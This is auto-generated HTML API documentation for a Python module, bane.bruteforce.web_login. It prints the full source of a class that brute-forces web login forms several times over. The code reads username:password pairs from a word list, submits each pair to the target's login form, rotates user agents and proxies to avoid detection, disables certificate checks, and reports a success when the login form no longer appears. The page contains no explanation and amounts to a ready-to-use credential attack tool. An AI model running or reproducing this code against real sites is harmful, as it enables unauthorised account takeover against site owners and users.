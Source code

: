 <body>
<main>
<article id="content">
<header>
<h1 class="title">Module <code>bane.bruteforce.web_login</code></h1>
</header>
<section id="section-intro">
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">from bane.bruteforce.utils import *



class web_login_bruteforce:
    __slots__ = [&#34;stop&#34;, &#34;finish&#34;, &#34;result&#34;, &#34;logs&#34;]

    def try_combo(self, url, username, password, cookie, user_agent, proxy, timeout,headers):
        prox = None
        cookies = None
        h = {&#34;User-Agent&#34;: user_agent}
        if cookie:
            h.update({&#34;Cookie&#34;: cookie})
            cookies = cookie
        h.update(headers)
        try:
            r = requests.Session().get(
                url, proxies=proxy, headers=h, verify=False, timeout=timeout
            )
        except:
            return False
        cook = None
        try:
            cook = r.headers[&#34;Set-cookie&#34;]
        except:
            pass
        cookies = set_correct_cookies(cook, cookie=cookie)
        form = set_login_form(url, r.text, username, password)
        h = {&#34;User-Agent&#34;: user_agent}
        if cookies:
            h.update({&#34;Cookie&#34;: cookies})
        d = form[0]
        h.update(
            {
                &#34;Referer&#34;: form[1],
                &#34;Origin&#34;: form[1].split(&#34;://&#34;)[0]
                + &#34;://&#34;
                + form[1].split(&#34;://&#34;)[1].split(&#34;/&#34;)[0],
            }
        )
        try:
            r = requests.Session().post(
                form[1], data=d, headers=h, verify=False, proxies=proxy, timeout=timeout
            )
        except:
            return False
        try:
            set_login_form(url, r.text, username, password)
            return False
        except:
            return True

    def __init__(
        self,
        u,
        word_list=[],
        threads_daemon=True,
        logs=True,
        proxy=None,
        proxies=None,
        cookie=None,
        user_agent=None,
        timeout=10,
        headers={}
    ):
        self.stop = False
        self.finish = False
        self.logs = logs
        self.result = {}
        t = threading.Thread(
            target=self.crack,
            args=(
                u,
                word_list,
                logs,
                proxy,
                proxies,
                cookie,
                user_agent,
                timeout,
                headers,
            ),
        )
        t.daemon = threads_daemon
        t.start()

    def done(self):
        return self.finish

    def crack(self, u, word_list, logs, proxy, proxies, cookie, user_agent, timeout,headers):
        for x in word_list:
            try:
                if self.stop == True:
                    self.finish = True
                    break
                username = x.split(&#34;:&#34;)[0]
                password = x.split(&#34;:&#34;)[1]
                if self.logs == True:
                    print(&#34;[*]Trying: {} {}&#34;.format(username, password))
                if user_agent:
                    us = user_agent
                else:
                    us = random.choice(ua)
                prox = None
                if proxy:
                    prox = proxy
                if proxies:
                    prox = random.choice(proxies)
                if (
                    self.try_combo(u, username, password, cookie, us, prox, timeout,headers)
                    == True
                ):
                    if self.logs == True:
                        print(&#34;[+]Success&#34;)
                    self.result = {u: username + &#34;:&#34; + password}
                    self.finish = True
                    break
                else:
                    if self.logs == True:
                        print(&#34;[-]Fail&#34;)
            except Exception as e:
                pass
                if self.logs == True:
                    print(&#34;[-]Fail&#34;)
        self.finish = True</code></pre>
</details>
</section>
<section>
</section>
<section>
</section>
<section>
</section>
<section>
<h2 class="section-title" id="header-classes">Classes</h2>
<dl>
<dt id="bane.bruteforce.web_login.web_login_bruteforce"><code class="flex name class">
<span>class <span class="ident">web_login_bruteforce</span></span>
<span>(</span><span>u, word_list=[], threads_daemon=True, logs=True, proxy=None, proxies=None, cookie=None, user_agent=None, timeout=10, headers={})</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">class web_login_bruteforce:
    __slots__ = [&#34;stop&#34;, &#34;finish&#34;, &#34;result&#34;, &#34;logs&#34;]

    def try_combo(self, url, username, password, cookie, user_agent, proxy, timeout,headers):
        prox = None
        cookies = None
        h = {&#34;User-Agent&#34;: user_agent}
        if cookie:
            h.update({&#34;Cookie&#34;: cookie})
            cookies = cookie
        h.update(headers)
        try:
            r = requests.Session().get(
                url, proxies=proxy, headers=h, verify=False, timeout=timeout
            )
        except:
            return False
        cook = None
        try:
            cook = r.headers[&#34;Set-cookie&#34;]
        except:
            pass
        cookies = set_correct_cookies(cook, cookie=cookie)
        form = set_login_form(url, r.text, username, password)
        h = {&#34;User-Agent&#34;: user_agent}
        if cookies:
            h.update({&#34;Cookie&#34;: cookies})
        d = form[0]
        h.update(
            {
                &#34;Referer&#34;: form[1],
                &#34;Origin&#34;: form[1].split(&#34;://&#34;)[0]
                + &#34;://&#34;
                + form[1].split(&#34;://&#34;)[1].split(&#34;/&#34;)[0],
            }
        )
        try:
            r = requests.Session().post(
                form[1], data=d, headers=h, verify=False, proxies=proxy, timeout=timeout
            )
        except:
            return False
        try:
            set_login_form(url, r.text, username, password)
            return False
        except:
            return True

    def __init__(
        self,
        u,
        word_list=[],
        threads_daemon=True,
        logs=True,
        proxy=None,
        proxies=None,
        cookie=None,
        user_agent=None,
        timeout=10,
        headers={}
    ):
        self.stop = False
        self.finish = False
        self.logs = logs
        self.result = {}
        t = threading.Thread(
            target=self.crack,
            args=(
                u,
                word_list,
                logs,
                proxy,
                proxies,
                cookie,
                user_agent,
                timeout,
                headers,
            ),
        )
        t.daemon = threads_daemon
        t.start()

    def done(self):
        return self.finish

    def crack(self, u, word_list, logs, proxy, proxies, cookie, user_agent, timeout,headers):
        for x in word_list:
            try:
                if self.stop == True:
                    self.finish = True
                    break
                username = x.split(&#34;:&#34;)[0]
                password = x.split(&#34;:&#34;)[1]
                if self.logs == True:
                    print(&#34;[*]Trying: {} {}&#34;.format(username, password))
                if user_agent:
                    us = user_agent
                else:
                    us = random.choice(ua)
                prox = None
                if proxy:
                    prox = proxy
                if proxies:
                    prox = random.choice(proxies)
                if (
                    self.try_combo(u, username, password, cookie, us, prox, timeout,headers)
                    == True
                ):
                    if self.logs == True:
                        print(&#34;[+]Success&#34;)
                    self.result = {u: username + &#34;:&#34; + password}
                    self.finish = True
                    break
                else:
                    if self.logs == True:
                        print(&#34;[-]Fail&#34;)
            except Exception as e:
                pass
                if self.logs == True:
                    print(&#34;[-]Fail&#34;)
        self.finish = True</code></pre>
</details>
<h3>Instance variables</h3>
<dl>
<dt id="bane.bruteforce.web_login.web_login_bruteforce.finish"><code class="name">var <span class="ident">finish</span></code></dt>
<dd>
<div class="desc"><p>Return an attribute of instance, which is of type owner.</p></div>
</dd>
<dt id="bane.bruteforce.web_login.web_login_bruteforce.logs"><code class="name">var <span class="ident">logs</span></code></dt>
<dd>
<div class="desc"><p>Return an attribute of instance, which is of type owner.</p></div>
</dd>
<dt id="bane.bruteforce.web_login.web_login_bruteforce.result"><code class="name">var <span class="ident">result</span></code></dt>
<dd>
<div class="desc"><p>Return an attribute of instance, which is of type owner.</p></div>
</dd>
<dt id="bane.bruteforce.web_login.web_login_bruteforce.stop"><code class="name">var <span class="ident">stop</span></code></dt>
<dd>
<div class="desc"><p>Return an attribute of instance, which is of type owner.</p></div>
</dd>
</dl>
<h3>Methods</h3>
<dl>
<dt id="bane.bruteforce.web_login.web_login_bruteforce.crack"><code class="name flex">
<span>def <span class="ident">crack</span></span>(<span>self, u, word_list, logs, proxy, proxies, cookie, user_agent, timeout, headers)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def crack(self, u, word_list, logs, proxy, proxies, cookie, user_agent, timeout,headers):
    for x in word_list:
        try:
            if self.stop == True:
                self.finish = True
                break
            username = x.split(&#34;:&#34;)[0]
            password = x.split(&#34;:&#34;)[1]
            if self.logs == True:
                print(&#34;[*]Trying: {} {}&#34;.format(username, password))
            if user_agent:
                us = user_agent
            else:
                us = random.choice(ua)
            prox = None
            if proxy:
                prox = proxy
            if proxies:
                prox = random.choice(proxies)
            if (
                self.try_combo(u, username, password, cookie, us, prox, timeout,headers)
                == True
            ):
                if self.logs == True:
                    print(&#34;[+]Success&#34;)
                self.result = {u: username + &#34;:&#34; + password}
                self.finish = True
                break
            else:
                if self.logs == True:
                    print(&#34;[-]Fail&#34;)
        except Exception as e:
            pass
            if self.logs == True:
                print(&#34;[-]Fail&#34;)
    self.finish = True</code></pre>
</details>
</dd>
<dt id="bane.bruteforce.web_login.web_login_bruteforce.done"><code class="name flex">
<span>def <span class="ident">done</span></span>(<span>self)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def done(self):
    return self.finish</code></pre>
</details>
</dd>
<dt id="bane.bruteforce.web_login.web_login_bruteforce.try_combo"><code class="name flex">
<span>def <span class="ident">try_combo</span></span>(<span>self, url, username, password, cookie, user_agent, proxy, timeout, headers)</span>
</code></dt>
<dd>
<div class="desc"></div>
<details class="source">
<summary>
<span>Expand source code</span>
</summary>
<pre><code class="python">def try_combo(self, url, username, password, cookie, user_agent, proxy, timeout,headers):
    prox = None
    cookies = None
    h = {&#34;User-Agent&#34;: user_agent}
    if cookie:
        h.update({&#34;Cookie&#34;: cookie})
        cookies = cookie
    h.update(headers)
    try:
        r = requests.Session().get(
            url, proxies=proxy, headers=h, verify=False, timeout=timeout
        )
    except:
        return False
    cook = None
    try:
        cook = r.headers[&#34;Set-cookie&#34;]
    except:
        pass
    cookies = set_correct_cookies(cook, cookie=cookie)
    form = set_login_form(url, r.text, username, password)
    h = {&#34;User-Agent&#34;: user_agent}
    if cookies:
        h.update({&#34;Cookie&#34;: cookies})
    d = form[0]
    h.update(
        {
            &#34;Referer&#34;: form[1],
            &#34;Origin&#34;: form[1].split(&#34;://&#34;)[0]
            + &#34;://&#34;
            + form[1].split(&#34;://&#34;)[1].split(&#34;/&#34;)[0],
        }
    )
    try:
        r = requests.Session().post(
            form[1], data=d, headers=h, verify=False, proxies=proxy, timeout=timeout
        )
    except:
        return False
    try:
        set_login_form(url, r.text, username, password)
        return False
    except:
        return True</code></pre>
</details>
</dd>
</dl>
</dd>
</dl>
</section>
</article>
<nav id="sidebar">
<h1>Index</h1>
<div class="toc">
<ul></ul>
</div>
<ul id="index">
<li><h3>Super-module</h3>
<ul>
<li><code><a title="bane.bruteforce" href="index.md">bane.bruteforce</a></code></li>
</ul>
</li>
<li><h3><a href="#header-classes">Classes</a></h3>
<ul>
<li>
<h4><code><a title="bane.bruteforce.web_login.web_login_bruteforce" href="#bane.bruteforce.web_login.web_login_bruteforce">web_login_bruteforce</a></code></h4>
<ul class="two-column">
<li><code><a title="bane.bruteforce.web_login.web_login_bruteforce.crack" href="#bane.bruteforce.web_login.web_login_bruteforce.crack">crack</a></code></li>
<li><code><a title="bane.bruteforce.web_login.web_login_bruteforce.done" href="#bane.bruteforce.web_login.web_login_bruteforce.done">done</a></code></li>
<li><code><a title="bane.bruteforce.web_login.web_login_bruteforce.finish" href="#bane.bruteforce.web_login.web_login_bruteforce.finish">finish</a></code></li>
<li><code><a title="bane.bruteforce.web_login.web_login_bruteforce.logs" href="#bane.bruteforce.web_login.web_login_bruteforce.logs">logs</a></code></li>
<li><code><a title="bane.bruteforce.web_login.web_login_bruteforce.result" href="#bane.bruteforce.web_login.web_login_bruteforce.result">result</a></code></li>
<li><code><a title="bane.bruteforce.web_login.web_login_bruteforce.stop" href="#bane.bruteforce.web_login.web_login_bruteforce.stop">stop</a></code></li>
<li><code><a title="bane.bruteforce.web_login.web_login_bruteforce.try_combo" href="#bane.bruteforce.web_login.web_login_bruteforce.try_combo">try_combo</a></code></li>
</ul>
</li>
</ul>
</li>
</ul>
</nav>
</main>
<footer id="footer">
<p>Generated by <a href="https://pdoc3.github.io/pdoc" title="pdoc: Python API documentation generator"><cite>pdoc</cite> 0.10.0</a>.</p>
</footer>
</body>
</html>